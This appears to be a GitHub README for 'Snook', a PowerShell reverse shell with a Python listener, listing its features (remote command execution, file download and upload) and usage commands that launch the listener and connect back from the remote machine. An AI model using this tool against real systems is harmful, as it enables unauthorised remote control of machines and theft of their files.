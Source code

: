 # Snook
Enhanced PowerShell reverse shell with python listener

## Dependencies

The python listener needs:

- colorama
- alive-progress

Both can be installed with pip. However, they are not crucial dependencies so if you do not want to install them you can modify the code of snook_listener.py.

The reverse shell has only been tested on PowerShell 5.1.

## Features

- Execute commands
- Download a file from the remote host
- Upload a file to the remote host

## Usage

On your machine, set up the listener:

`python3 snook_listener.py -H <IP> -p <PORT>`

Then run the reverse shell on the remote machine:

`. .\snook.ps1 ; Invoke-Snook <IP> <PORT>`

## TODO

- Add file logging
- Add new cool features
- Check if reverse shell is compatible with other PS versions

